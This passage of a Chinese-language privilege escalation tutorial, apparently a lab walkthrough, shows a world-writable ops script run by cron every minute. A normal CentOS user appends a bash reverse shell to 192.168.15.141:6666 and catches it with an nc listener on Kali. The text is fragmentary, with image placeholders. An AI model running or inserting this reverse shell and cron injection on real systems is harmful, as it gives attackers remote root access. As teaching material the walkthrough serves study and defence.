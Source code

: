 ```
}
bash_os
```

![image-20241017200210079](操作系统提权/image-20241017200210079.png)	

```
并且给了777的权限。
```

![image-20241017200433146](操作系统提权/image-20241017200433146.png)	

```
设置计划任务，使得每隔一分钟执行一次该脚本。
vim /etc/crontab
service crond status 查看计划任务启动
service crond restart 重启计划任务		
```

![image-20241017202220784](操作系统提权/image-20241017202220784.png)	

```
控制centos7普通用户的权限，然后再运维脚本注入反弹shell.
echo "bash -i >& /dev/tcp/192.168.15.141/6666 0>&1" >> bash_os.sh
并且kali使用ncat进行监听反弹shell
nc -lvvp 6666
```

![image-20241017202755232](操作系统提权/image-20241017202755232.png)	

![image-20241017202805869](操作系统提权/image-20241017202805869.png)	
